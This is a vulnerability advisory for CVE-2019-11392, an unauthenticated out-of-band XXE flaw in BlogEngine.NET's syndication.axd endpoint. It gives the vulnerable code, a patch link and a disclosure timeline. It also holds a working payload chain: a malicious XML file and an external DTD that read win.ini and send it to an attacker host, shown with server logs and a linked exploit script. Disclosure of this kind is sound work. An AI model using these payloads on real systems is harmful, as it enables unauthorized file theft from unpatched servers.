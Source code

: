 An Out-of-band XML External Entity attack, CVE-2019-11392, exists on BlogEngine.NET versions 3.3.7 and earlier through the `/syndication.axd` endpoint.  This issue can be exploited to reveal the contents of files on the host. Authentication is not required.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases>

## Timeline

* Identified: 21 Apr 2019
* Initial Developer Contact: 22 Apr 2019
* Issue Disclosed: 18 June 2019

## Description

The vulnerable code can be found here:

~~~{command="SyndicationHandler.cs"}
if (!string.IsNullOrEmpty(context.Request.QueryString["apml"]))
{
	// Finds matches to  an APML file in both posts and pages
	try
	{
		using (var client = new WebClient())
		{
			client.Credentials = CredentialCache.DefaultNetworkCredentials;
			client.Encoding = Encoding.Default;
			using (var stream = client.OpenRead(context.Request.QueryString["apml"]))
			{
				<r:b>var doc = new XmlDocument()</r:b>;
				if (stream != null)
				{
					doc.Load(stream);
				}
~~~

The **apml** parameter parses an XML located at the path provided by the user.  The path can be on a remote host.

An unauthenticated user can submit a malicious request specifying an external XML such as:

~~~
http://<r:var>$RHOST</r:var>/blog/syndication.axd?apml=<r:var>http://$LHOST/oob.xml</r:var>
~~~

~~~{.xml command="oob.xml"}
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "https://$LHOST/exfil.dtd">
<foo>&e1;</foo>
~~~

The malicious XML instructs the parser to request a DTD (document type definition) from an external host:

~~~
<r:var>$RHOST</r:var> - - [01/Apr/2019:16:34:40 -0600] "GET /exfil.dtd HTTP/1.1" 200 326 "-" "-"
~~~

<pagebreak></pagebreak>

The external DTD is then parsed and instructs the application to read a local file:

~~~{command="ex.dtd"}
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://<r:var>$LHOST</r:var>/EX?%p1;'>">
%p2;
~~~

The contents of the local file, `C:/WINDOWS/win.ini` in the example, are then sent in a subsequent request to the attacker:

~~~
<r:var>$RHOST</r:var> - - [01/Apr/2019:16:34:40 -0600] "GET /EX?;<r:b>%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1%0D%0A[MCI%20Extensions.BAK]%0D%0A3g2=MPEGVideo%0D%0A3gp=MPEGVideo%0D%0A3gp2=MPEGVideo%0D%0A3gpp=MPEGVideo%0D%0Aaac=MPEGVideo%0D%0Aadt=MPEGVideo%0D%0Aadts=MPEGVideo%0D%0Am2t=MPEGVideo%0D%0Am2ts=MPEGVideo%0D%0Am2v=MPEGVideo%0D%0Am4a=MPEGVideo%0D%0Am4v=MPEGVideo%0D%0Amod=MPEGVideo%0D%0Amov=MPEGVideo%0D%0Amp4=MPEGVideo%0D%0Amp4v=MPEGVideo%0D%0Amts=MPEGVideo%0D%0Ats=MPEGVideo%0D%0Atts=MPEGVideo</r:b> HTTP/1.1" 404 438 "-" "-"
~~~

## Exploit

The exploit available at <https://github.com/irbishop/CVEs/blob/master/2019-11392/exploit.py> attempts to request the contents of specified files (or `C:/Windows/win.ini` by default). It then writes the files to the current folder:

~~~{command="C_Windows_win.ini"}
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
~~~
